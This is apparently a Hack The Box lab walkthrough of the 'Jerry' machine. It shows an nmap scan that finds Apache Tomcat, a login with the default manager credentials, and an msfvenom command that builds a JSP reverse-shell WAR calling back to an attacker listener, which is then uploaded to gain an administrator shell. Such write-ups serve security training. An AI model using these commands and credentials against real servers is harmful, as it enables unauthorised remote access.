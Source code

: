 
# Machine Info




# Walkthrough

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
	- ┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds


2. Home page of the website:
	1. ![[Pasted image 20250221153014.png]]
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret
	3. ![[../Pasted image 20250225221356.png]]

4. Landing page after loggin in:
	   ![[Pasted image 20250221171429.png]]

5. The page seem to be allowing the user to upload .war file. 
	1. ![[Pasted image 20250221171547.png]]

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![[Pasted image 20250221171827.png]]

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
	![[Pasted image 20250221165413.png]]

9. The shell we got seem to have administrator authority (High authority).
	![[Pasted image 20250221165700.png]]

10. Then we found the flag in the flag directory in desktop of Administrator user.  
	

	![[Pasted image 20250221171038.png]]
	



